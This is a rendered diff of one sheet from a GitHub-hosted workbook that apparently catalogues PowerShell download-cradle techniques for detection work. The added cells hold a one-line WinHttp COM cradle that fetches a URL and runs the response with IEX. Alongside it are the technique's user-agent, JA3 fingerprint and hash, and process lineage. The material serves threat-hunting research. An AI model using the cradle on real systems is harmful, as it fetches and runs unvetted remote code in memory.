

Before and after one commit to mgreen27/mgreen27.github.io, an Excel workbook: other/DownloadCradle/DownloadCradle.xlsx, sheet WinHttp COM, drawn as a sheet; only a part is shown; values as stored, in another font and other column widths than the file's, no borders; ↵ is a line break in a cell; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/other/DownloadCradle/DownloadCradle.xlsx (sheet WinHttp COM)
+++ b/other/DownloadCradle/DownloadCradle.xlsx (sheet WinHttp COM)
+column B, rows 1-6: Windows 10 Office 2016 Powershell 5.1.16299.248 | PowerShell WinHttp COM Object interactions ↵ $comWinHttp=new-object -com WinHttp.WinHttpRequest.5.1;$comWinHttp.open('GET',$Url,$false);$comWinHttp.send();IEX $comWinHttp.responseText ↵ Powershell version: 2+ ↵ Proxy: not proxy aware ↵ PsComWinHttp: memory only | Mozilla/* (compatible; Win32; WinHttp.WinHttpRequest.*) | JA3_footprint: 771,49196-49195-49200-49199-159-158-49188-49187-49192-49191-49162-49161-49172-49171-157-156-61-60-53-47-10,0-5-10-11-13-35-23-65281,29-23-24,0 ↵ JA3_hash: ce5f3254611a8c095a3d821d44539877 | Powershell.exe | Child: Powershell.exe
```
Also changed, not shown: 2 edited cells elsewhere in this sheet, sheet Certutil, sheet MsXml COM, sheet WebClient, sheet Excel COM, sheet regsvr32, sheet Word COM, 12 more sheets, 1 other file.
